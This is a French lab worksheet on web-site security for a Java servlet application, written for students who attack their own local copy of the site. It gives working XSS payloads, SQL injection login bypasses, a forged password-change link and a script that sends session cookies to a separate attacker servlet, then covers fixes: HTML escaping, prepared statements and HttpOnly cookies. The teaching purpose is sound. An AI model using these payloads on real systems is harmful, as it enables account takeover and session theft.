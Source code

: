 
# Sécurité des sites web

**Objectifs :**
- Comprendre les principes de base et savoir se protéger contre l'injection XSS et l'injection SQL

**Avertissement**  
TESTER LA VULNÉRABILITÉ D'UN SITE QUI N'EST PAS LE VÔTRE EST ILLEGAL  
NE RÉALISEZ CES EXERCICES QUE SUR VOS PROPRES SITES

## Préambule
Afin de pouvoir effectuer des tests de "piratage" interessants, il est nécessaire d'avoir une application qui nécessite une authentification
et une gestion de rôles, qui permet de saisir des données et d'afficher d'une manière ou d'une autre les données saisies. C'est le cas à l'issue de l'exercice précédant.

### Déploiement
1. Tomcat arrêté, récupérer et décompresser le fichier `tp309.zip`
1. Quelle commande Unix permet de savoir dans quelles pages sont réalisées les connexions ?
1. Quelle commande Unix permet de remplacer le nom de l'utilisateur par le votre ?
1. Sans éditer aucun fichier, modifiez l'ensemble des pages de manière à bien régler le driver, l'url, le login, le mot de passe nécessaires au bon fonctionnement
de ce site.
1. N'oubliez pas de créer la table et les données nécessaires (voir le `README`associé) et compiler les servlets !

## Injection XSS
L'injection XSS (HTML ou Javascript) peut se faire partout où l'utilisateur saisit des données. Cela perturbera toute page qui
affichera le contenu de cette saisie, par exemple quand l'utilisateur modifie ses coordonnées. En tant que jean, saisir par exemple dans le champs adresse tour à tour les données suivantes.

Vérifiez dans chacun de ces cas, les conséquences sur la page d’affichage des données d’un administrateur : c'est jean qui saisit, c'est paul qui subit !
1. `<h1>HACK</h1>`
1. `<font size=7 color=red>HACK</font>`
1. `<script>alert("HACK")</script>`
1. `<script>window.open("Select")</script>`
Firefox limite depuis la version 57.0 le nombre de popups. Lors de l’appel, cliquez sur le bouton preferences pour autoriser les popups.
1. `<script>location="http://www.libe.fr"</script>`
Dans ce dernier cas, vous constatez que plus aucun admin ne verra sa page d’affichage !

## Injection SQL
L’injection SQL peut se faire dans toute donnée qui sera manipulée par une instruction SQL, ce qui est le cas de tout formulaire d’authentification.
1. Saisir dans les deux champs login et mdp `’ OR ’1’=’1`
Vous constatez que l’on se connecte au site avec le login du 1er utilisateur de la base, qui est en général l’administrateur !!
1. Saisir dans le champs login `’ union select ’x’,’x’,’x’,’x’,’admin’,’x’ --` (des x pour chaque colonne qui n’est pas un rôle, le reste en commentaire)
Vous constatez que l’on “force” la connexion à un role spécifique (ici admin !!).
1. Saisir dans le champs login un login correct, mais sous la forme `unbonlogin' or '1'='1` , puis n'importe quoi dans le champs mot de passe.  
Vous constatez que l'on se connecte sans le mot de passe en tant que l'utilisateur choisi.
1. Créez une table `bidon(libelle text)` avec quelques lignes dedans. Trouvez l'injection à effectuer au login pour effacer
complètement cette table par injection SQL
1. Vous êtes un nouvel utilisateur. Comment faire pour être directement inscrit à la création avec un compte admin inscrit
physiquement dans la base ?
1. Vous avez un compte sur ce site en tant que simple utilisateur. Comment modifier votre rôle pour passer de util à admin
dans la base.

## Social engineering
L'ingénierie sociale est une forme d'escroquerie utilisée en informatique pour obtenir d'autrui des informations clefs. Cette
pratique exploite les failles humaines et sociales, la crédulité des personnes possédant ce que l'on cherche à obtenir.

* L'administrateur est connecté
* Un pirate lui envoie un email en html en apparence anodin. Pour tester, envoyez vous un email contenant le texte :  
  ```html
  Peux tu jeter un oeil sur ma page perso
  <p>
  <a href=http://localhost:8080/tp37/servlet-Maj2?login=paul&mdp=toto&nom=&prenom=&adresse=>
  http://127.12.56.33/mapageperso.html</a>
  <p>
  Merci
  ```
* En tant qu'administateur paul, vous ne vous méfiez pas, et en recevant le mail, vous cliquez naïvement dessus.
* Ce faisant, paul vient de changer son mot de passe en toto, mot de passe que vous lui avez indiqué dans la partie cachée du lien.
* Le pirate peut maintenant se logger en paul/toto

## Le vol de sessions
Toutes les protections précédentes permettent d'éviter les attaques par injection les plus classiques, mais n'évitent pas pour autant
le vol de session.
Dans cet exercice nous allons voir comment se logguer sur un site en utilisant la session d'un autre utilisateur, sans saisir aucun
login ni mot de passe !
1. Nous utiliserons Chrome pour l'administrateur (ici paul/paul) et Firefox/Iceweasel pour le "voleur" (ici jean/jean)
qui est simple utilisateur. Lancez les deux et recadrez ces fenetres pour qu'elles soient côte à côte : Chromium à gauche,
Firefox à droite.
1. Les navigateurs récents possèdent tous une "console web". Cet outil permet d'éditer, débugguer, tester CSS, HTML, et JavaScript en direct sur n'importe quelle page. Sur Firefox allez dans "Outils/Developpement web" puis "console web" onglet "storage"
1. Tout est maintenant prêt pour la démonstration
1. Un voleur (navigateur de droite), jean, non administrateur, injecte dans ses coordonnées (via "modifier vos infos") le code  
    ```javascript
    <script>alert(document.cookie)</script>
    ```
1. Paul (navigateur de gauche), administrateur, se connecte légalement avec son login/mdp sur le navigateur de gauche ... mais
il laisse sa session ouverte en allant boire un café :-(
1. Jean, le voleur en profite pour utiliser son navigateur et afficher la liste des coordonnées. L'affichage de cette page lui donne le `JSESSIONID`. Faites un copier du numéro.
1. Jean, le voleur retourne sur son navigateur Firefox qu'il lance sur la page de Menu
1. Avec `Firebug` (Affichage - Firebug), il va dans l'onglet cookie et modifie l'identfiant de session en mettant celui volé 1
1. Après un reload de cette page, il est maintenant connecté comme administrateur !
1. Les cookies sont accessibles coté client via les langages de Script comme Javascript. Certains navigateurs refusent cet accès pour les cookies avec la marque `HttpOnly`. Pour se protéger il faut donc toujours paramétrer son serveur avec des `HttpOnly` cookies.


## Industrialiser les vols de sessions
Certains pirates injectent dans les pages WEB des forums des liens permettant de voler vos cookies et les ranger dans leurs bases
de données
1. Ecrire dans vide (pas dans `tp309` pour symboliser un autre serveur; celui du voleur) une servlet `Voler.java` qui récupere
un parametre `p` et le range dans une table `numsessions(p text)`.
1. Injecter dans le site (page "Modifiez vos infos") le code suivant dans le champs adresse 2 :  
    ```html
    <a href="#" onclick="window.location=''http://mamachine:8080/vide/servlet-Voler?p=''+
    escape(document.cookie)">Cliquer ici!</a>
    ```
1. Demandez maintenant à vos voisins d'afficher cette page et de cliquer sur le lien
1. A chaque click d'un utilisateur, son numéro de session vient remplir votre table de sessions volées. Il ne vous reste plus qu'à laisser ce piège toute la nuit, demain matin, votre BDD sera pleine de cookies tous frais ;-)

## Mise en sécurité "élémentaire" du site
1. Afin d'éviter l'injection XSS une technique basique et inefficace consiste à faire des replaceAll sur les chaines de caractères pour supprimer les caractères spéciaux `<>'()`. Testez cette approche sur le paramètre adresse.
1. Testez la saisie de Villeneuve d'Ascq dans l'adresse
1. l'API `Commons-text` de chez Apache et sa classe `StringEscapeUtils` est bien plus efficace puisqu'elle "encode" les caractères spéciaux ainsi que ceux supérieurs au code ascii 127.
  * Ecrire un programme Java simple qui saisit une chaine et affiche sa transformation avec la méthode `translate` de
la classe `StringEscapeUtils`  
    ```java
    CharSequenceTranslator cst = StringEscapeUtils.ESCAPE_HTML4;  
    String translated=cst.translate(input);
    ```
  * Testez avec différentes chaines contenant des caractères spéciaux(genre `<h1>hello</h1>`)
  * Modifiez votre site en conséquence.
  * Testez la saisie de Villeneuve d'Ascq dans l'adresse
1. Afin d'évitez l'injection SQL, remplacez les Statement utilisés à partir de données saisies par des `PreparedStatement` avec setters
1. Restestez toutes les injections vues lors des précédents exercices et testez que toute forme de piratage est désormais impossible.

